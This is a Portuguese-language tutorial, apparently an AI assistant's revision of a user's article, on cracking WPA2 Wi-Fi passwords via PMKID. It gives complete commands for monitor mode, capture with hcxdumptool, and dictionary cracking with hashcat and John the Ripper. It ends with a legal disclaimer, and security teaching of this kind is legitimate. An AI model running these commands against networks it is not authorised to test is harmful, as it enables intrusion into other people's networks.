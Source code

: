 Claro, Raphael! Vamos revisar e aprimorar seu artigo sobre **crackeamento de redes Wi-Fi via PMKID**, mantendo o espírito didático e técnico, mas com refinamento estrutural, clareza conceitual e coesão prática. Segue abaixo a revisão com comentários de melhorias e sugestões de conteúdo adicional.

---

# 🔓 Crackeando Wi-Fi via PMKID

## 📌 Introdução

Tradicionalmente, os ataques a redes Wi-Fi envolvem a **captura e quebra do handshake WPA/WPA2**, mas esse método possui uma limitação crítica:

> 💡 **É necessário que algum dispositivo esteja conectado à rede** no momento do ataque para que o handshake possa ser capturado.

Por sorte (ou azar, dependendo do ponto de vista), existe uma técnica mais moderna: **o ataque via PMKID** — que permite capturar dados úteis **sem necessidade de clientes conectados** à rede.

---

## 🧠 Requisitos

Antes de seguir, é importante que você tenha:

* 📶 **Conhecimento básico sobre redes sem fio**
* 🐧 **Familiaridade com terminal no Linux**
* 💻 **Kali Linux (físico ou VM), com o pacote `aircrack-ng` já instalado**
* 🔌 **Placa de rede compatível com modo monitor e WPA2**

> ❗ Preferencialmente, utilize um adaptador USB com chipset compatível como o Atheros AR9271 (TL-WN722N v1, por exemplo).

---

## 🔍 O que é PMKID?

PMKID (Pairwise Master Key Identifier) é um identificador gerado durante a negociação de autenticação em redes WPA2.
Ao contrário do handshake clássico, ele pode ser coletado **sem a necessidade de um cliente ativo na rede**.

Isso o torna **extremamente útil para testes de segurança ofensiva**.

---

## ⚙️ Preparando o Ambiente

### 1. Instale os pacotes necessários:

```bash
sudo apt update
sudo apt install -y hcxdumptool hcxtools hashcat
```

Essas ferramentas serão usadas para:

* Capturar pacotes PMKID
* Converter para o formato correto
* Realizar a quebra da senha

---

## 📡 Ativando o Modo Monitor

Coloque sua interface de rede em modo monitor:

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Substitua `wlan0` pelo nome da sua interface Wi-Fi.

---

## 📶 Capturando o PMKID

Use o `hcxdumptool` para iniciar a coleta dos pacotes PMKID:

```bash
sudo hcxdumptool -i wlan0mon -o captura.pcapng --enable_status=1
```

> O `--enable_status=1` mostra redes com `PMKID` capturado (indicadas por `+` na interface).

A captura será salva em `captura.pcapng`.

---

## 🔁 Convertendo a Captura para Hash

Agora converta o `.pcapng` para o formato de hash do Hashcat (`.22000`):

```bash
hcxpcapngtool -o rede.22000 captura.pcapng
```

---

## 🔓 Quebrando a Senha com Hashcat

Com o hash `.22000` em mãos e a wordlist certa (como a `rockyou.txt`), execute:

```bash
hashcat -m 22000 -a 0 rede.22000 /usr/share/wordlists/rockyou.txt --force
```

> **Explicação dos parâmetros:**
>
> * `-m 22000`: Tipo de hash (WPA-PMKID+EAPOL)
> * `-a 0`: Modo ataque por dicionário
> * `--force`: Ignora alertas do driver

Para ver a senha encontrada:

```bash
hashcat -m 22000 rede.22000 --show
```

---

## 💣 Alternativa: John the Ripper (modo Jumbo)

Também é possível usar o **John the Ripper** (compilado em modo Jumbo) para quebrar PMKIDs:

```bash
/usr/share/john/hcx2john.py rede.22000 > rede.john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk rede.john
john --show --format=wpapsk rede.john
```

> ⚙️ Se precisar compilar o John com suporte a WPA, veja as instruções em [https://github.com/openwall/john](https://github.com/openwall/john)

---

## 🧾 Explicando o que está acontecendo (Parte Didática)

* **hcxdumptool**: age como um sniffer ativo, forçando APs a enviarem o PMKID.
* **hcxpcapngtool**: converte os dados para formato entendido por ferramentas de força bruta.
* **hashcat/john**: tenta quebrar o hash usando dicionários de senhas.

---

## ✅ Melhoria de Terminologia e Prática

**Corrigir e padronizar os termos**:

* “Exploração” → Melhor usar **"Execução do ataque"** ou **"Fase de coleta"**
* “Crackeado” → Usar **"quebrado"**, **"decifrado"** ou **"descoberto"**
* Trocar **`arquivo BPF`** (confuso) por **“filtro de pacotes”**
* Revisar o uso de comandos desnecessários como `airmon-ng <interface>` na seção de scan (provavelmente quis usar `airodump-ng`)

---

## 🔐 Aviso Legal

> ⚠️ **Este conteúdo é estritamente educacional.**
>
> Realize testes apenas em redes autorizadas por você ou por contrato formal. A invasão ou interceptação de redes alheias **é crime previsto no Código Penal Brasileiro (Art. 154-A)**.

---
